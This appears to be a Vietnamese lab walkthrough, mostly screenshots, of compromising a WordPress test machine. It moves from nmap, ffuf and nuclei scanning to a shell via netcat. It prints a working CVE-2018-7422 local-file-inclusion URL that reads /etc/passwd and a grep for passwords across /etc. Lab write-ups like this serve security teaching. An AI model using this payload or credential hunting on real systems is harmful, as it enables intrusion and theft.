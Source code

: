![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/cf7b2147-041f-4750-ab51-f6b1c206df31)

# ENUMERATING
## ip sweep
![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/7bb869d2-d1a5-45ea-ac98-ffcbfed2a3f6)

## using nmap
![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/0e3960f5-47df-4949-9708-987a0011a9c9)

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/74cb16f0-b389-403e-acc0-5999bbbc0060)

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/e30c8af3-b046-47ce-b5fb-f1bbcac6414c)

=> ip của máy là 192.168.199.140 và đang mở 2 port 22, 80.

## using ffuf
![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/621e93b9-5986-4f23-85d1-74f3219bce17)

## view web
![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/6a7f8aa5-1909-4907-a123-850aeaf07ac4)

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/05d005ac-efac-492f-ac92-7163ae2c5739)

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/57d799d1-bd66-4643-8414-20eb7880e06c)

hmm.. file đã được tải lên thành công và chuyển tới /tmp
## using nuclei tool
![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/1933362e-9863-4f78-9bc8-b748b6e9f118)

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/4f68d86b-0c34-486f-8d0f-1ffb87da2b11)

truy cập từ đường dẫn tìm thấy khi dùng CVE-2018-7422 : ```http://192.168.199.140/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd```

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/a5795c81-df26-4894-80db-e865d9df399e)

=> lỗi LFI

# EXPLOITING
thay đổi URL dẫn tới tệp /tmp/hello.php
![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/61cccf58-3ff7-4e5c-967b-a1e27a5f6db2)

sử dụng ```nc``` => thành công lấy được shell

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/24d306e6-2afb-45b2-99e9-95455b53f0f5)

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/a3354793-012d-4aeb-81a6-424b53bbffe4)

khi thử chạy câu lênh ```grep -r "password" /etc/``` thấy ```/usr/bin/mysqladmin -u root -h app109 password 'new-password'$```

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/cbab3a5a-c0f7-45c2-ac25-fab760b97ca4)
